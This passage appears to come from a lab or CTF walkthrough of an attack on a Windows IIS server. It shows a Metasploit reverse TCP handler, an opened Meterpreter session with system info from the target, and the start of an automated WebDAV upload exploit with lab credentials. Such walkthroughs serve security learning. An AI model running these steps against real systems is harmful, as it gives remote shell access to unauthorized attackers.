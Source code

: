```bash

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', se
                                        h, thread, process, none)
   LHOST     10.10.43.2       yes       The listen address (an interface
                                         may be specified)
   LPORT     1234             yes       The listen port


# run -> Waiting target to executed or loaded
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.43.2:1234 

# Click uploaded file on the browser
# Output on Terminal (below)
[*] Started reverse TCP handler on 10.10.43.2:1234 
[*] Sending stage (176198 bytes) to 10.0.23.31
[*] Meterpreter session 1 opened (10.10.43.2:1234 -> 10.0.23.31:49805) at 2025-07-15 19:08:53 +0530

# Try sysinfo command
meterpreter > sysinfo
Computer        : AD-IIS
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 


# Successfully exploited!
```

3. Automate entire process with Metasploit module
```bash
# Search IIS upload module
msf6 exploit(multi/handler) > search iis upload

Matching Modules
================

   #  Name                                                             Disclosure Date  Rank       Check  Description
   -  ----                                                             ---------------  ----       -----  -----------
   0  exploit/windows/scada/advantech_webaccess_dashboard_file_upload  2016-02-05       excellent  Yes    Advantech WebAccess Dashboard Viewer uploadImageCommon Arbitrary File Upload                                        
   1  exploit/windows/iis/iis_webdav_upload_asp                        2004-12-31       excellent  No     Microsoft IIS WebDAV Write Access Code Execution
   2  exploit/windows/http/umbraco_upload_aspx                         2012-06-28       excellent  No     Umbraco CMS Remote Command Execution


msf6 exploit(multi/handler) > use 1
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

# Don't have to set payload because windows/meterpreter/reverse_tcp is defaulted
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set HttpUsername bob
HttpUsername => bob
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set HttpPassword password_123321
HttpPassword => password_123321
```